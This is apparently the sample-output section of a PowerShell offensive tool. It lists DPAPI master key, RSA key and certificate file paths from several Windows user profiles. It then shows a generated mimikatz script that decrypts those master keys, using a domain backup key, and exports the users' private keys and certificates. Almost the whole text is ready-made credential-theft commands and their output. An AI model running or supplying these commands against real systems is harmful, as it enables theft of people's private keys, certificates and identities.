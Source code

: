 \Administrator\Crypto\RSA\S-1-5-21-4534338-1127018997-2609994386-500\d881dc8bbed7c3a08f03b01de4b9f45f_f8b7bbef-d227-4ac7-badd-3a238a7f741e
\Administrator\Crypto\RSA\S-1-5-21-4534338-1127018997-2609994386-500\e1b4cc613d831f27c664af17b8f98021_f8b7bbef-d227-4ac7-badd-3a238a7f741e
\Administrator\Protect\S-1-5-21-4534338-1127018997-2609994386-500\47070660-c259-4d90-8bc9-187605323450
\Administrator\Protect\S-1-5-21-4534338-1127018997-2609994386-500\e13655bb-9519-45aa-abf8-a50a7b01317a
\Administrator\SystemCertificates\My\Certificates\01ADA5237C2D2D1F1571247A239CA66B31885389
\Administrator\SystemCertificates\My\Certificates\5479CDDE0747E2CB5DF64F28A9E4AD3266AB27AF
\Administrator\SystemCertificates\My\Certificates\574E4687133998544C0095C7B348C52CD398182E
\Administrator\SystemCertificates\My\Certificates\B422F98237039C9836D24E22E5A92FCEC507EF89
\Administrator\SystemCertificates\My\Certificates\DBE2B5417D56BC061B05B7265A47D3595EEC6A32
\Administrator\SystemCertificates\Request\Certificates\AE1EBACC333E48E80C5DED7D0C644D80417CB6EC
\Lara\Crypto\RSA\S-1-5-21-4534338-1127018997-2609994386-1359\1eceade740dd71b94c3a7333522b9859_9e75a609-18c7-4c98-8cd0-c34c3aeae423
\Lara\Crypto\RSA\S-1-5-21-4534338-1127018997-2609994386-1359\2995fb4c62c9211bc265c89fe1c85061_9e75a609-18c7-4c98-8cd0-c34c3aeae423
\Lara\Crypto\RSA\S-1-5-21-4534338-1127018997-2609994386-1359\3183cd1aef41afc9af73e231607b5266_9e75a609-18c7-4c98-8cd0-c34c3aeae423
\Lara\Crypto\RSA\S-1-5-21-4534338-1127018997-2609994386-1359\4f8bd0d10c208c8d57d2a1babd288a83_9e75a609-18c7-4c98-8cd0-c34c3aeae423
\Lara\Protect\S-1-5-21-4534338-1127018997-2609994386-1359\5f6d65d9-c363-4c78-af8d-034fb80efc5a
\Lara\SystemCertificates\My\Certificates\1307CE05C8247AA08508302431B6A99647FF600E
\Lara\SystemCertificates\My\Certificates\7B0928AF99A3244E73F7F17957ABD5A80818B210
\Lara\SystemCertificates\My\Certificates\90E1D7F90AD73F66F2C8F60120C256D038FD1F2C
\Lara\SystemCertificates\My\Certificates\DB690E9D99D094D3E9746DE484D3050951516E29
\Logan\Crypto\RSA\S-1-5-21-4534338-1127018997-2609994386-1272\fd56f510920bd55b31ff5207eafda8c8_9e75a609-18c7-4c98-8cd0-c34c3aeae423
\Logan\Protect\S-1-5-21-4534338-1127018997-2609994386-1272\9c6cc9e0-b5f8-48f4-a478-305ad77fceab
\Logan\SystemCertificates\My\Certificates\5D7A3A4FE8ADF5A61C5079EB7FDD1507B2753682
#>

PS C:\> Get-Content -Path '.\Output\kiwiscript.txt'
<# Sample Output:
REM Add this parameter to at least the first dpapi::masterkey command: /pvk:"ntds_capi_290914ed-b1a8-482e-a89f-7caa217bf3c3.pvk"
dpapi::masterkey /in:"Install\Protect\S-1-5-21-1236425271-2880748467-2592687428-1000\0f2ca69c-c144-4d80-905f-a6bcdfb0d659" /sid:S-1-5-21-1236425271-2880748467-2592687428-1000
dpapi::masterkey /in:"Install\Protect\S-1-5-21-1236425271-2880748467-2592687428-1000\acdad60e-bcc0-48fb-9ceb-7514ca5aa558" /sid:S-1-5-21-1236425271-2880748467-2592687428-1000
dpapi::cng /in:"Install\Crypto\Keys\002F8F86566CEFBC8694EE7F5BB24A5FF2BA2C18"
dpapi::cng /in:"Install\Crypto\Keys\476D927F1B009662D46D785BA58BD8E9DB42F687"
crypto::system /file:"Install\SystemCertificates\My\Certificates\EA4AD6192A82AB059BFA5E774515FDE0DA604160" /export
crypto::system /file:"Install\SystemCertificates\My\Certificates\D6F23BB7BD8C0099DF5F1324507EA0CA3DE7DEAB" /export
dpapi::masterkey /in:"john\Protect\S-1-5-21-1236425271-2880748467-2592687428-1109\bfefb3a6-5cdc-44f9-8521-a31feb3acdb1" /sid:S-1-5-21-1236425271-2880748467-2592687428-1109
dpapi::masterkey /in:"john\Protect\S-1-5-21-1236425271-2880748467-2592687428-1109\c14e7f69-3bf5-4c49-92d8-78d759d74ece" /sid:S-1-5-21-1236425271-2880748467-2592687428-1109
crypto::system /file:"john\SystemCertificates\My\Certificates\AF839B040D1257997A8D83EE71F96918F4C3EA01" /export
dpapi::cng /in:"john\Crypto\Keys\9F95F8E4F381BFFFD22B5EFAA013E53268451310"
dpapi::cng /in:"john\Crypto\Keys\C9ABDF8DC38EA2BA2E20AEC770D91210FF919F87"
crypto::system /file:"john\SystemCertificates\My\Certificates\DEFFADB62EE547CB88973DF664C4DC958E8E64D8" /export
crypto::system /file:"john\SystemCertificates\My\Certificates\49FD324E5CC4A6020AC9D12D4311C7B33393A1C4" /export
crypto::system /file:"john\SystemCertificates\My\Certificates\4E951C29567A261B2E90C94BCCEFAE1FA878A2CB" /export
dpapi::capi /in:"john\Crypto\RSA\S-1-5-21-1236425271-2880748467-2592687428-1109\0581f4e6088649266038726d9f8786a9_edc46440-65c9-41ce-aaeb-73754e0e38c8"
